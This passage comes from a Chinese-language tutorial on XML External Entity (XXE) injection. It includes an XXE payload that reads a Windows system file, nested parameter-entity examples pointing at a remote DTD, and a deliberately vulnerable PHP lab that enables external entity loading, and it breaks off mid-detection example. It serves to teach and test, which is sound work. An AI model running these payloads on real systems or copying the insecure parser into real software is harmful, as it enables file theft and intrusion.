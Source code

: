         <?xml version="1.0"?>
        <!DOCTYPE ANY [
            <!ENTITY % a  "<!ENTITY b SYSTEM 'file:///c:/windows/system.ini'>">
            %a;
        ]>
        <a>&b;</a>
        
        
        
        外部实体
        <!ENTITY  % 外部参数实体名字 system "url">
        
        嵌套参数实体
        <!ENTITY  % 外部参数实体名字 system "<!ENTITY  % 外部参数实体名字 system 'url'>">
        一个xml文件，由于引号的关系，最多嵌套一次
        
        但是如果是通过文件的形式，可以无限嵌套。
        <!ENTITY  % 外部参数实体名字 system "http://xxx.xx.xx/dtd.dtd">
        
        ```

## 什么是XXE

>  XXE漏洞全称XML External Entity Injection即xml外部实体注入漏洞，无论是参数外部实体，还是外部实体。
>
> XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等危害。    
>
> xlsx后缀的excel表格是使用xml格式的，如果网站会解析xlsx文件，同样存在xxe漏洞。
>
> https://xz.aliyun.com/t/7747
>
> https://github.com/whitel1st/docem

xxe漏洞触发的点往往是可以上传xml文件或者**xlsx文件**的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件。

php漏洞环境：

- post输入xml代码就行。

```php
<?php
libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$creds = simplexml_import_dom($dom);
echo $creds;
?>
```

XXE漏洞检测：

- 第一步检测XML是否会被成功解析，先上传一个xml文件，如果显示了实体输出，说明xml可以被解析。

    ```xml-dtd
    <?xml version="1.0" ?>
    
    <!DOCTYPE ANY [
        <!ENTITY liudehua "test">
    ]>
    